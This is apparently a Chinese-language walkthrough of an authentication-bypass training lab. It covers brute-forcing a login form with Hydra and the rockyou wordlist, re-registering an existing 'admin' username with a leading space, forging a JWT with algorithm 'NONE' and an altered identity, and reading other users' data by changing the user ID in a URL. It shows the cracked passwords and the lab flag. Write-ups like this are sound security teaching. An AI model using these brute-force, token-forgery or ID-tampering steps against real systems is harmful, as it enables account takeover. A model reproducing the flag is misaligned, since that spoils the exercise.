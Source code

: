 ## task2 字典攻擊
mike
```
┌──(root💀kali)-[~]
└─# hydra -l mike -P /usr/share/wordlists/rockyou.txt "http-post-form://10.10.230.48:8888/login:user=^USER^&password=^PASS^:Invalid" -t 64
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-30 09:57:23
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking http-post-form://10.10.230.48:8888/login:user=^USER^&password=^PASS^:Invalid
[8888][http-post-form] host: 10.10.230.48   login: mike   password: 12345
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-30 09:57:49
```
## task3 重新註冊
多時候發生的情況是開發人員忘記清理用戶在其應用程序代碼中提供的輸入（用戶名和密碼），這可能使他們容易受到 SQL 注入之類的攻擊，但 SQLi 可能有點難以利用。因此，我們將重點關注由於開發人員的錯誤而發生但很容易被利用的漏洞，即重新註冊現有用戶。

讓我們通過一個例子來理解這一點，假設有一個名為admin的現有用戶，現在我們想要訪問他們的帳戶，所以我們可以做的是嘗試重新註冊該用戶名，但稍作修改。我們要輸入“admin”（注意開頭的空格）。現在，當您在用戶名字段中輸入該信息並輸入其他必需信息（如電子郵件 ID 或密碼）並提交該數據時。它實際上會註冊一個新用戶，但該用戶將擁有與普通管理員相同的權限。並且該新用戶還將能夠看到用戶admin下存在的所有內容。

## task4
JSON Web Token（JWT）是一種常用的授權方式。這是一種使用 HMAC 散列或公鑰/私鑰生成的 cookie。因此，與任何其他類型的 cookie 不同，它讓網站知道當前登錄的用戶擁有什麼樣的訪問權限。JWT 唯一的特別之處在於它們是 JSON 格式（解碼後）。      
                
用user/user 驗證後登入，可以見到一個JWT
```
GET /protected HTTP/1.1

Host: 10.10.144.53:5000

Authorization: JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDM2MTk5ODAsImlhdCI6MTY0MzYxOTY4MCwibmJmIjoxNjQzNjE5NjgwLCJpZGVudGl0eSI6MX0.nCNwrdMOhCmVEaLx7qHc4BIYOiwaVVByqiCwrQ-9QSM

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36

Content-Type: application/json

Accept: */*

Referer: http://10.10.144.53:5000/

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Connection: close
```
把JWT用base64解開後會看到三個部分
```
{"typ":"JWT","alg":"HS256"}{"exp":1643619980,"iat":1643619680,"nbf":1643619680,"identity":1}'.Ü+tÃ¡
eDh¼{¨w8......T.ª.,+CÔ.4
```
如果注意到可能用於識別用戶的身份值，但如果只是對其進行編輯，那麼它將不起作用，因為第三部分是加密的。因此，為了繞過這一點，我們將對標頭以及標識的值進行更改。
```
使用 base64 編碼以下字符串，這將是我們的第一部分

{"typ":"JWT","alg":"NONE"}

對於第二部分，我們將對以下字符串進行編碼：

{"exp":1586620929,"iat":1586620629,"nbf":1586620629,"identity":2}

請注意我們如何將identity的值從1  更改為2。

由於我們將 alg 值設置為 None 我們不必添加第三部分或加密值，因此我們可以在第二部分之後放置一個點 (.) 並保持原樣。所以最終的字符串看起來像：
eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0K.eyJleHAiOjE1ODY3MDUyOTUsImlhdCI6MTU4NjcwNDk5NSwibmJmIjoxNTg2NzA0OTk1LCJpZGVudGl0eSI6MH0K.
```


## task5 
```
我們在網站上看到，當我們註冊用戶並使用我們的憑據登錄時，我們會得到一個特定的 id，它要么完全是數字，要么以數字結尾。大多數情況下，開發人員會保護他們的應用程序，但有時在某些地方，只需更改該數字，我們就可以看到一些隱藏或私人數據。
```
註冊 登陸後            
http://10.10.230.48:7777/users/1?                       
改成         
http://10.10.230.48:7777/users/2? 
```
Hello admin!
Your password:
rootadmin
Your secret data:
I am the admin of this website.
```
http://10.10.230.48:7777/users/0?
```
Hello superadmin!
Your password:
abcd1234
Your secret data:
Here's your flag: 72102933396288983011
```
